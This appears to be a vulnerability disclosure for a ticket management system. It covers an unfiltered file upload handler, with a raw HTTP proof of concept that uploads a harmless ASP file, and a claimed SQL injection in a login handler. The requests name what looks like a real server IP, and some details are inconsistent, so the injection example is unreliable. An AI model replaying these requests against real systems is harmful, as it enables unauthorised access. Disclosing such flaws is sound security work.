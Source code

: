 ## File upload


- Vulnerability Name: Ticket Management System Standard Version - File Upload Vulnerability

- Vulnerabilities URL:/WiChat/ashx/UploadHandler. ashx

- Vulnerability description: UploadHandler does not filter uploaded files in any way

- Temporary solution: Set the permission to disable script running on the folder UploadImage



- Vulnerability related code

!(imgs/2024-08-12-票务管理系统标准版-文件上传漏洞/image-20240812124205940.png)

- Method for reproducing vulnerabilities

![image-20240812124118510](imgs/2024-08-12-票务管理系统标准版-文件上传漏洞/image-20240812124039627.png)

- visit url/UploadImage/1.asp

![image-20240812124205940](imgs/2024-08-12-票务管理系统标准版-文件上传漏洞/image-20240812124205940.png)

- POC

```
GET /WeChat/ashx/UploadHandler.ashx HTTP/2
Host: host
Cookie: ASP.NET_SessionId=uuigwbm4v4b30ykuja5c2xsn; SESSIONID=VAEAADILWiMFEnkxjy0Io/Rwsst9uE3mxlZfIc8i6UI=&VAEAAPWddZzuRvJK3ALg8A==&HUAWEI &langfrombrows=zh-CN,&copyright=2014-2022; ASPSESSIONIDSGDRADAS=DPFDAIDBPACHPBHNFJOHLILC
Cache-Control: max-age=0
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://117.145.188.82:8010/WeChat/ashx/
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Length: 7483

------WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Content-Disposition: form-data; name="file"; filename="1.asp"
Content-Type: image/jpeg

<% 
    Response.Write "Hello, World!"
%>
------WebKitFormBoundary7yyQ5XLHOn6WZ6MT--
```

## Sql Inject

- parameter : key

```
POST /LoginHandler.ashx HTTP/2
Host: host
Cookie: ASP.NET_SessionId=lxzevhb5yxdj0nqa43tz3qat
Content-Length: 65
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: host
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: host
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

Method=GetSystemConfig&class.module.classLoader.URLs[a0]=&key=w
```

![image-20240812140603223](imgs/zhongcheng_kexin_ticketing_management_platform/image-20240812140603223.png)
